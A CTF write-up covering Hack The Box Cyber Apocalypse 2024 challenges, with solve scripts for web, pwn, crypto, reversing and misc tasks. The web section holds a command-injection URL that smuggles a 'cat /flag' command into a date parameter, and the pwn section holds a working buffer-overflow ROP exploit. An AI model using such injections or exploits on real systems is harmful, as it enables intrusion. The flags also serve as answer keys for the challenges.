

## Introduction

This year I took part in Hack The Box's Cyber Apocalypse 2024 CTF. I was part of the team called ETRAID. It was a great experience and I learned a lot from it. I will be sharing some of the writeups for the challenges I solved. I will not be providing the solutions for the challenges that were solved by my teammates.



## Web

### Flag Command

#### Challenge

This challenge was a simple game in CLI like fashion. We had to provide the correct instructions to the game to get the flag.

#### Solution

This challenge required looking into Javascript using the browser's developer tools. This allowed you to get all the possible options and send a request to the server with for the flag.

Flag: `HTB{D3v3l0p3r_t00l5_4r3_b35t_wh4t_y0u_Th1nk??!}`

### TimeKORP

#### Challenge

In this challenge we were given a website that had a form that took a date as input and returned the date in a different format. The input was passed to the `date` command in the backend. The command was not sanitized and we could inject our own commands. The source code was also provided.

#### Solution

This challenge was a simple RCE. The website had a form that took a date as input and returned the date in a different format. The input was passed to the `date` command in the backend. The command was not sanitized and we could inject our own commands.

`http://IP:PORT/?format=%Y-%m-%d'%20%26%26%20cat%20'%2Fflag`

Flag: `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`

## PWN

### Rocket Blaster XXX

#### Challenge

In this challenge we were given a binary and a server. The server was running the binary and we had to exploit it to get the flag.

#### Solution

This challenge was a typical `ret2win`.

After decompiling the binary in Ghidra, we found that the binary was vulnerable to a buffer overflow. We used the buffer overflow to overwrite the return address and jump to the `fill_ammo` function.

```py title="solve.py"
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = """
init-pwndbg
continue
""".format(
    **locals()
)

# Set up pwntools for the correct architecture
exe = "./rocket_blaster_xxx"
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
rop = ROP(elf)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = "info"
# Load libc
libc = ELF("./glibc/libc.so.6")

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

import sys

io = start()

offset = 40

pop_rdi = 0x40159F
pop_rsi = 0x40159D
pop_rdx = 0x40159B
ret = 0x40101A

payload = flat(
    offset * b"A",
    pop_rdi,
    0xDEADBEEF,
    pop_rsi,
    0xDEADBABE,
    pop_rdx,
    0xDEAD1337,
    ret,
    elf.functions.fill_ammo,
)

log.info(sys.getsizeof(payload))

write("payload.txt", payload)

io.sendlineafter(b">> ", payload)

io.interactive()
```

Flag: `HTB{b00m_b00m_r0ck3t_2_th3_m00n}`

## Crypto

### Dynastic

#### Challenge

In this challenge, we were given a file named `source.py` and `output.txt`

```py title="source.py"
from secret import FLAG
from random import randint

def to_identity_map(a):
    return ord(a) - 0x41

def from_identity_map(a):
    return chr(a % 26 + 0x41)

def encrypt(m):
    c = ''
    for i in range(len(m)):
        ch = m[i]
        if not ch.isalpha():
            ech = ch
        else:
            chi = to_identity_map(ch)
            ech = from_identity_map(chi + i)
        c += ech
    return c

with open('output.txt', 'w') as f:
    f.write('Make sure you wrap the decrypted text with the HTB flag format :-]\n')
    f.write(encrypt(FLAG))
```

#### Solution

This challenge was a simple substitution cipher. We had to reverse the encryption to get the flag.

```py title="solve.py"
encrypted = 'DJF_CTA_SWYH_NPDKK_MBZ_QPHTIGPMZY_KRZSQE?!_ZL_CN_PGLIMCU_YU_KJODME_RYGZXL'

def to_identity_map(a):
    return ord(a) - 0x41

def from_identity_map(a):
    return chr(a % 26 + 0x41)

def decrypt(m):
    c = ''
    for i in range(len(m)):
        ch = m[i]
        if not ch.isalpha():
            ech = ch
        else:
            chi = to_identity_map(ch)
            ech = from_identity_map(chi - i + 26)
        c += ech
    return c

print(decrypt(encrypted))
```

Flag: `HTB{DID_YOU_KNOW_ABOUT_THE_TRITHEMIUS_CIPHER?!_IT_IS_SIMILAR_TO_CAESAR_CIPHER}`

### Makeshift

In this challenge, we were given a file named `source.py` and `output.txt`.

```py title="source.py"
from secret import FLAG

flag = FLAG[::-1]
new_flag = ''

for i in range(0, len(flag), 3):
    new_flag += flag[i+1]
    new_flag += flag[i+2]
    new_flag += flag[i]

print(new_flag)
```

#### Solution

We can simply re-arranged per 3 characters, then reverse it. Below is the script that I used to solve:

```py title="solve.py"
encrypted = '!?}De!e3d_5n_nipaOw_3eTR3bt4{_THB'

flag = ''

for i in range(0, len(encrypted), 3):
    flag += encrypted[i+2]
    flag += encrypted[i]
    flag += encrypted[i+1]

print(flag[::-1])
```

Flag: `HTB{4_b3tTeR_w3apOn_i5_n3edeD!?!}`

### Primary Knowledge

#### Challenge

In this challenge, we were given a file named `source.py` and `output.txt`.

```py title="source.py"
import math
from Crypto.Util.number import getPrime, bytes_to_long
from secret import FLAG

m = bytes_to_long(FLAG)

n = math.prod([getPrime(1024) for _ in range(2**0)])
e = 0x10001
c = pow(m, e, n)

with open('output.txt', 'w') as f:
    f.write(f'{n = }\n')
    f.write(f'{e = }\n')
    f.write(f'{c = }\n')
```

#### Solution

To calculate the private key `d`, we can simply calculate it by doing `inverse_mod(e, phi)` where `phi=n-1`. After recovering `d`, we can simply decrypt the c by doing `pow(c,d,n)`.

```py title="solve.py"
from Crypto.Util.number import long_to_bytes, inverse

n=144595784022187052238125262458232959109987136704231245881870735843030914418780422519197073054193003090872912033596512666042758783502695953159051463566278382720140120749528617388336646147072604310690631290350467553484062369903150007357049541933018919332888376075574412714397536728967816658337874664379646535347
e = 0x10001
c=15114190905253542247495696649766224943647565245575793033722173362381895081574269185793855569028304967185492350704248662115269163914175084627211079781200695659317523835901228170250632843476020488370822347715086086989906717932813405479321939826364601353394090531331666739056025477042690259429336665430591623215

phi = n - 1
d = inverse(e, phi)

m = pow(c, d, n)

flag = long_to_bytes(m).decode()

print(flag)
```

### Iced TEA

#### Challenge

In this chalenge we were given a source code named `source.py` and `output.txt`.


#### Solution

The above source code is trying to implement [TEA](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm). We can simply follow the wikipedia example. Below is the function that we can use to decrypt it. I just added the solve code to the `source.py` file.

```py title="solve.py"
import os

# from secret import FLAG
from Crypto.Util.Padding import pad
from Crypto.Util.number import bytes_to_long as b2l, long_to_bytes as l2b
from enum import Enum


class Mode(Enum):
    ECB = 0x01
    CBC = 0x02


class Cipher:
    def __init__(self, key, iv=None):
        self.BLOCK_SIZE = 64
        self.KEY = [
            b2l(key[i : i + self.BLOCK_SIZE // 16])
            for i in range(0, len(key), self.BLOCK_SIZE // 16)
        ]
        self.DELTA = 0x9E3779B9
        self.IV = iv
        if self.IV:
            self.mode = Mode.CBC
        else:
            self.mode = Mode.ECB

    def _xor(self, a, b):
        return b"".join(bytes([_a ^ _b]) for _a, _b in zip(a, b))

    def encrypt(self, msg):
        msg = pad(msg, self.BLOCK_SIZE // 8)
        blocks = [
            msg[i : i + self.BLOCK_SIZE // 8]
            for i in range(0, len(msg), self.BLOCK_SIZE // 8)
        ]

        ct = b""
        if self.mode == Mode.ECB:
            for pt in blocks:
                ct += self.encrypt_block(pt)
        elif self.mode == Mode.CBC:
            X = self.IV
            for pt in blocks:
                enc_block = self.encrypt_block(self._xor(X, pt))
                ct += enc_block
                X = enc_block
        return ct

    def encrypt_block(self, msg):
        m0 = b2l(msg[:4])
        m1 = b2l(msg[4:])
        K = self.KEY
        msk = (1 << (self.BLOCK_SIZE // 2)) - 1

        s = 0
        for i in range(32):
            s += self.DELTA
            m0 += ((m1 << 4) + K[0]) ^ (m1 + s) ^ ((m1 >> 5) + K[1])
            m0 &= msk
            m1 += ((m0 << 4) + K[2]) ^ (m0 + s) ^ ((m0 >> 5) + K[3])
            m1 &= msk

        m = ((m0 << (self.BLOCK_SIZE // 2)) + m1) & (
            (1 << self.BLOCK_SIZE) - 1
        )  # m = m0 || m1

        return l2b(m)

    def decrypt(self, ct):
        blocks = [
            ct[i : i + self.BLOCK_SIZE // 8]
            for i in range(0, len(ct), self.BLOCK_SIZE // 8)
        ]
        pt = b""
        if self.mode == Mode.ECB:
            for block in blocks:
                pt += self.decrypt_block(block)
        elif self.mode == Mode.CBC:
            X = self.IV
            for block in blocks:
                dec_block = self._xor(X, self.decrypt_block(block))
                pt += dec_block
                X = block
        return pt

    def decrypt_block(self, ct):
        c0 = b2l(ct[:4])
        c1 = b2l(ct[4:])
        K = self.KEY
        msk = (1 << (self.BLOCK_SIZE // 2)) - 1

        s = self.DELTA * 32
        for i in range(32):
            c1 -= ((c0 << 4) + K[2]) ^ (c0 + s) ^ ((c0 >> 5) + K[3])
            c1 &= msk
            c0 -= ((c1 << 4) + K[0]) ^ (c1 + s) ^ ((c1 >> 5) + K[1])
            c0 &= msk
            s -= self.DELTA

        m = ((c0 << (self.BLOCK_SIZE // 2)) + c1) & (
            (1 << self.BLOCK_SIZE) - 1
        )  # m = c0 || c1

        return l2b(m)


if __name__ == "__main__":
    # KEY = os.urandom(16)
    KEY = bytes.fromhex("850c1413787c389e0b34437a6828a1b2")
    cipher = Cipher(KEY)
    # ct = cipher.encrypt(FLAG)
    # with open("output.txt", "w") as f:
    #     f.write(f"Key : {KEY.hex()}\nCiphertext : {ct.hex()}")
    ct="b36c62d96d9daaa90634242e1e6c76556d020de35f7a3b248ed71351cc3f3da97d4d8fd0ebc5c06a655eb57f2b250dcb2b39c8b2000297f635ce4a44110ec66596c50624d6ab582b2fd92228a21ad9eece4729e589aba644393f57736a0b870308ff00d778214f238056b8cf5721a843"
    print(cipher.decrypt(bytes.fromhex(ct)))
```

Flag: `HTB{th1s_1s_th3_t1ny_3ncryp710n_4lg0r1thm_____y0u_m1ght_h4v3_4lr34dy_s7umbl3d_up0n_1t_1f_y0u_d0_r3v3rs1ng}`

### Blunt

#### Challenge

In this challenge, we were given a source code named `source.py` and `output.txt`.

```py title="source.py"
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Util.number import getPrime, long_to_bytes
from hashlib import sha256

from secret import FLAG

import random


p = getPrime(32)
print(f'p = 0x{p:x}')

g = random.randint(1, p-1)
print(f'g = 0x{g:x}')

a = random.randint(1, p-1)
b = random.randint(1, p-1)

A, B = pow(g, a, p), pow(g, b, p)

print(f'A = 0x{A:x}')
print(f'B = 0x{B:x}')

C = pow(A, b, p)
assert C == pow(B, a, p)

# now use it as shared secret
hash = sha256()
hash.update(long_to_bytes(C))

key = hash.digest()[:16]
iv = b'\xc1V2\xe7\xed\xc7@8\xf9\\\xef\x80\xd7\x80L*'
cipher = AES.new(key, AES.MODE_CBC, iv)

encrypted = cipher.encrypt(pad(FLAG, 16))
print(f'ciphertext = {encrypted}')
```

Based on the above source code, seems like it try to implement Diffie-Hellman key exchange. The goal here is we need to recover the private key `a`, so that we can calculate `C`.

### Solution

We use baby-step giant-step algorithm to solve this challenge. Below is the script that I used to solve:

```py title="solve.py"
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from Crypto.Util.number import long_to_bytes
from hashlib import sha256


def baby_step_giant_step(g, A, p):
    N = int(p**0.5) + 1

    # compute the "baby steps"
    baby_steps = {pow(g, i, p): i for i in range(N)}

    # compute the "giant steps"
    g_inv = pow(g, -N, p)
    giant_steps = [(A * pow(g_inv, j, p)) % p for j in range(N)]

    # find a match between the "baby steps" and "giant steps"
    for j, giant_step in enumerate(giant_steps):
        if giant_step in baby_steps:
            return j * N + baby_steps[giant_step]

    raise ValueError("No solution found")


p = 0xDD6CC28D
g = 0x83E21C05
A = 0xCFABB6DD
B = 0xC4A21BA9
ciphertext = b"\x94\x99\x01\xd1\xad\x95\xe0\x13\xb3\xacZj{\x97|z\x1a(&\xe8\x01\xe4Y\x08\xc4\xbeN\xcd\xb2*\xe6{"

# Generate a random private key
a = baby_step_giant_step(g, A, p)

# Calculate the shared secret
C = pow(B, a, p)

# Generate the AES key
hash = sha256()
hash.update(long_to_bytes(C))
key = hash.digest()[:16]

# Decrypt the ciphertext
iv = b"\xc1V2\xe7\xed\xc7@8\xf9\\\xef\x80\xd7\x80L*"
cipher = AES.new(key, AES.MODE_CBC, iv)
plaintext = unpad(cipher.decrypt(ciphertext), 16).decode("utf-8")

print(plaintext)
```

Flag: `HTB{y0u_n3ed_a_b1gGeR_w3ap0n!!}`

## Reversing

### LootStash

#### Challenge

In this challenge, we were given a file named `stash` an ELF executable.

#### Solution

All we had to do was run the `strings` command on the binary and grep for `HTB`.

```sh title="solve.sh" frame="terminal"
strings stash | grep 'HTB'
```

Flag: `HTB{n33dl3_1n_a_l00t_stack}`

### BoxCutter

#### Challenge

In this challenge, we were given a file named `boxcutter` an ELF executable.

#### Solution

```py title="solve.py"
import struct

data = (
    struct.pack("<Q", 0x540345434C75637F)
    + struct.pack("<Q", 0x45F4368505906)
    + struct.pack("<B", 0x68)
    + struct.pack("<Q", 0x374A025B5B0354)
)

filename = bytearray(b ^ 0x37 for b in data)
filename = filename.decode().replace("7", "")

print(filename)
```

Flag: `HTB{tr4c1ng_th3_c4ll5}`

### Crushing

#### Challenge

In this challenge, we were given a file named `crushing` an ELF executable and `message.txt.cz` which was encrypted using the executable.

#### Solution

```py title="solve.py"
import struct


def deserialize_and_recreate_string(filename):
    with open(filename, "rb") as f:
        # Create a list to hold the positions of each character
        char_positions = [None] * 256

        for i in range(256):
            # Read the length of the list for this character
            data = f.read(8)
            if len(data) < 8:
                break
            list_len = struct.unpack("Q", data)[0]

            # Read the positions in the list
            positions = [struct.unpack("Q", f.read(8))[0] for _ in range(list_len)]

            # Store the positions in the list for this character
            char_positions[i] = positions

        original_string = [""] * 10000

        # Place each character at its positions in the original string
        for char, positions in enumerate(char_positions):
            if positions is not None:
                for position in positions:
                    print(position, len(original_string))
                    original_string[position] = chr(char)

        # Join the characters to get the original string
        return "".join(original_string)


print(deserialize_and_recreate_string("message.txt.cz"))
```

Flag: `HTB{4_v3ry_b4d_compr3ss1on_sch3m3}`

## Misc

### Character

#### Challenge

In this challenge, we were provided with a program on the remote server. We had to write a script to get the flag.

#### Solution

```py title="solve.py"
from pwn import *

ip = '94.237.59.34'
port = 56893
flag = ''

conn = remote(ip, port)

for i in range(1000):
    conn.sendafter('index:', f'{i}\n')
    conn.recvuntil(f'Index {i}:')
    char = conn.recvline().decode().strip()
    print(f'Index {i}: {char}')
    flag += char
    
    with open('chars.txt', 'w') as f:
        f.write(flag)
```

Flag: `HTB{tH15_1s_4_r3aLly_l0nG_fL4g_i_h0p3_f0r_y0Ur_s4k3_tH4t_y0U_sCr1pTEd_tH1s_oR_els3_iT_t0oK_qU1t3_l0ng!!}`

### Stop Drop and Roll

#### Challenge

In this challenge, we were provided with a game on the remote server. We had to write a script to finish the game and get the flag.

#### Solution

```py title="solve.py"
from pwn import *

ip = '94.237.63.46'
port = 39053

instructions_convert = {
    'GORGE': 'STOP',
    'PHREAK': 'DROP',
    'FIRE': 'ROLL',
}

conn = remote(ip, port)

conn.sendafter('(y/n)', 'y\n')
conn.recvuntil("Let's go!\n")

for i in range (1000):
    instr_string = conn.recvline().decode().strip()
    instructions = instr_string.split(', ')
    print(instructions)
    converted = [instructions_convert[i] for i in instructions]
    input_instr = '-'.join(converted) + '\n'
    print(input_instr)
    conn.sendafter('you do?', input_instr)
```

Flag: `HTB{1_wiLl_sT0p_dR0p_4nD_r0Ll_mY_w4Y_oUt!}`

### Path of Survival

#### Challenge

In this challenge, we were provided with a game and an API. We had to write a script to solve the game by getting to the weapon tile 100 times and get the flag.

#### Solution

We had to read the game's map using the API and run Dijkstra's algorithm to find the shortest path to the weapon tile.

First I run `generate_moves.py` to generate `moves.json` with all the possible moves.

```py title="generate_moves.py"
from pprint import pprint
from typing import List, Optional
from api import API, Direction, Move, Terrain
from utils import *
import json


def was_move_used(
    moves: List[Move], terrain_from: Terrain, terrain_to: Terrain, direction: Direction
) -> bool:
    for move in moves:
        if (
            move.terrain_from == terrain_from
            and move.terrain_to == terrain_to
            and move.direction == direction
        ):
            return True
    return False


moves: List[Move] = []
with open("moves.json", "r") as f:
    moves = [deserialize(move) for move in json.loads(f.read())]


def move_player(api: API, direction: Direction) -> Optional[bool]:
    map = api.get_map()

    if not can_move(map, map.player.position, direction):
        return None

    current_time = map.player.time
    player_position = map.player.position
    current_terrain = get_terrain(get_tile(map, player_position))

    new_pos = move(player_position, direction, map)
    new_tile = get_tile(map, new_pos)
    new_terrain = get_terrain(new_tile)

    if was_move_used(moves, current_terrain, new_terrain, direction):
        return None

    response = api.update(direction)
    if response.error == "Out of time!":
        return None

    delta_time = (current_time - response.time) if response.time else -1

    if delta_time == -1:
        move_obj = Move(
            terrain_from=current_terrain,
            terrain_to=new_terrain,
            time=delta_time,
            direction=direction,
        )
        if move_obj not in moves:
            moves.append(move_obj)
        return False

    new_pos = response.new_pos
    move_obj = Move(
        terrain_from=current_terrain,
        terrain_to=new_terrain,
        time=delta_time,
        direction=direction,
    )
    if move_obj not in moves:
        moves.append(move_obj)

    return True


api = API("http://94.237.63.46:33917/")
directions = [Direction.DOWN, Direction.UP, Direction.LEFT, Direction.RIGHT]

api.regenerate_map()

for i in range(1000):
    moved = False
    for direction in directions:
        moved = move_player(api, direction)
        if moved == True:
            break
    if moved == False or moved == None:
        print(api.regenerate_map())
    if len(moves) >= 168:
        break

with open("moves.json", "w") as f:
    f.write(json.dumps([serialize(move) for move in moves]))
```

```py title="utils.py"
from typing import List, Optional
from api import Direction, Map, Move, Terrain, Tile

def convert_tuple(tuple: str) -> List[int]:
    tuple = tuple.replace("(", "").replace(")", "").replace(" ", "")
    x, y = tuple.split(",")
    return [int(x), int(y)]

def get_tile(map: Map, position: List[int]) -> Optional[Tile]:
    key = f"({position[0]}, {position[1]})"
    if key not in map.tiles:
        return None
    return map.tiles[key]

def get_terrain(tile: Tile) -> Terrain:
    return Terrain(tile.terrain)

def move(position: List[int], direction: Direction, map: Map) -> List[int]:
    if direction == Direction.UP:
        return [position[0], position[1] - 1]
    elif direction == Direction.DOWN:
        return [position[0], position[1] + 1]
    elif direction == Direction.LEFT:
        return [position[0] - 1, position[1]]
    elif direction == Direction.RIGHT:
        return [position[0] + 1, position[1]]

def serialize(move: Move) -> dict:
    return {
        "direction": move.direction.value,
        "time": move.time,
        "terrain_from": move.terrain_from.value,
        "terrain_to": move.terrain_to.value,
    }

def deserialize(move: dict) -> Move:
    return Move(
        direction=Direction(move["direction"]),
        time=move["time"],
        terrain_from=Terrain(move["terrain_from"]),
        terrain_to=Terrain(move["terrain_to"]),
    )

def can_move(map: Map, position: List[int], direction: Direction) -> bool:
    move_pos = move(position, direction, map)
    return get_tile(map, move_pos) is not None

def find_move(
    terrain_from: Terrain, terrain_to: Terrain, direction: Direction, moves: List[Move]
) -> Optional[Move]:
    for move in moves:
        if (
            move.terrain_from == terrain_from
            and move.terrain_to == terrain_to
            and move.direction == direction
        ):
            return move
    return None

def get_weapon_positions(map: Map) -> List[List[int]]:
    weapon_tiles = []
    for pos, tile in map.tiles.items():
        if tile.has_weapon is True:
            weapon_tiles.append(convert_tuple(pos))
    return weapon_tiles
```

```py title="api.py"
import requests
from dataclasses import dataclass
from typing import List, Dict, Optional
from enum import Enum


@dataclass
class Player:
    position: List[int]
    time: int


class Terrain(Enum):
    C = "C"
    E = "E"
    G = "G"
    M = "M"
    P = "P"
    R = "R"
    S = "S"


class Direction(Enum):
    UP = "U"
    DOWN = "D"
    LEFT = "L"
    RIGHT = "R"


@dataclass
class Tile:
    has_weapon: bool
    terrain: Terrain


@dataclass
class Map:
    height: int
    player: Player
    tiles: Dict[str, Tile]
    width: int


@dataclass
class UpdateResult:
    error: Optional[str] = None
    regenerated: Optional[bool] = None
    new_pos: Optional[List[int]] = None
    time: Optional[int] = None
    maps_solved: Optional[int] = None
    solved: Optional[bool] = None
    flag: Optional[str] = None


@dataclass
class Move:
    direction: Direction
    time: int
    terrain_from: Terrain
    terrain_to: Terrain


class API:
    def __init__(self, base_url: str):
        self.base_url = base_url

    def get_rules(self) -> str:
        response = requests.get(f"{self.base_url}/rules")
        return response.text

    def get_api_info(self) -> str:
        response = requests.get(f"{self.base_url}/api")
        return response.text

    def regenerate_map(self) -> str:
        response = requests.get(f"{self.base_url}/regenerate")
        return response.text

    def get_map(self) -> Map:
        response = requests.post(f"{self.base_url}/map")
        data = response.json()
        player = Player(**data.pop("player"))
        for key, value in data["tiles"].items():
            data["tiles"][key] = Tile(**value)
        return Map(**data, player=player)

    def update(self, direction: Direction) -> UpdateResult:
        data = {"direction": direction.value}
        response = requests.post(f"{self.base_url}/update", json=data)
        return UpdateResult(**response.json())
```

After running `generate_moves.py`, I run `solve.py` to solve the game.

```py title="solve.py"
import json
from pprint import pprint
from queue import PriorityQueue
from utils import *
from api import API, Direction, Move

moves: List[Move] = []
with open("moves.json", "r") as f:
    moves = [deserialize(move) for move in json.loads(f.read())]


def find_path(start_x: int, start_y: int, map: Map):
    dist = [[float("inf") for _ in range(map.width)] for _ in range(map.height)]
    came_from = [[(-1, -1) for _ in range(map.width)] for _ in range(map.height)]
    dist[start_y][start_x] = 0

    pq = PriorityQueue()
    pq.put((0, (start_x, start_y)))

    while not pq.empty():
        data = pq.get()
        current_x, current_y = data[1]

        current_tile = get_tile(map, [current_x, current_y])
        current_terrain = get_terrain(current_tile)
        current_dist = -data[0]

        if current_dist > dist[current_y][current_x]:
            continue
        for dir in [Direction.UP, Direction.DOWN, Direction.LEFT, Direction.RIGHT]:
            if not can_move(map, [current_x, current_y], dir):
                continue
            potential_x, potential_y = move([current_x, current_y], dir, map)
            potential_tile = get_tile(map, [potential_x, potential_y])
            potential_terrain = get_terrain(potential_tile)

            potential_move = find_move(current_terrain, potential_terrain, dir, moves)
            if potential_move is None or potential_move.time == -1:
                continue

            required_time = potential_move.time

            if (
                dist[current_y][current_x] + required_time
                < dist[potential_y][potential_x]
            ):
                dist[potential_y][potential_x] = (
                    dist[current_y][current_x] + required_time
                )
                came_from[potential_y][potential_x] = (current_x, current_y)
                pq.put((-dist[potential_y][potential_x], (potential_x, potential_y)))

    weapon_positions = get_weapon_positions(map)
    weapon_distances = []
    for pos in weapon_positions:
        weapon_distances.append((dist[pos[1]][pos[0]], pos))

    min_val, get_to = min(weapon_distances, key=lambda x: x[0])
    if min_val == float("inf") or min_val > map.player.time:
        print("No weapon in range")
        print(f"Player position: [{start_x}, {start_y}]")
        for pos in weapon_positions:
            print(f"Distance to weapon at {pos}: {dist[pos[1]][pos[0]]}")
        print(f"Max distance to weapon: {map.player.time}")

        return []

    path = []
    while get_to != (start_x, start_y):
        path.append([get_to[0], get_to[1]])
        get_to = came_from[get_to[1]][get_to[0]]
    path.append([start_x, start_y])

    path.reverse()

    directions = []

    for i in range(len(path) - 1):
        x, y = path[i]
        next_x, next_y = path[i + 1]
        if x == next_x:
            if y > next_y:
                directions.append(Direction.UP)
            else:
                directions.append(Direction.DOWN)
        else:
            if x > next_x:
                directions.append(Direction.LEFT)
            else:
                directions.append(Direction.RIGHT)

    return directions


api = API("http://83.136.253.251:49512")
api.regenerate_map()

while True:
    map = api.get_map()
    x, y = map.player.position
    directions = find_path(x, y, map)
    if len(directions) == 0:
        print()
        print("No path found")
        api.regenerate_map()
        continue

    for direction in directions:
        result = api.update(direction)
        if result.solved is not None and result.solved == True:
            print(f"Solved {result.maps_solved} maps")
            if result.maps_solved == 100:
                print(f"Found flag: {result.flag}")
                exit(0)
        if result.error is not None:
            print(result.error)
```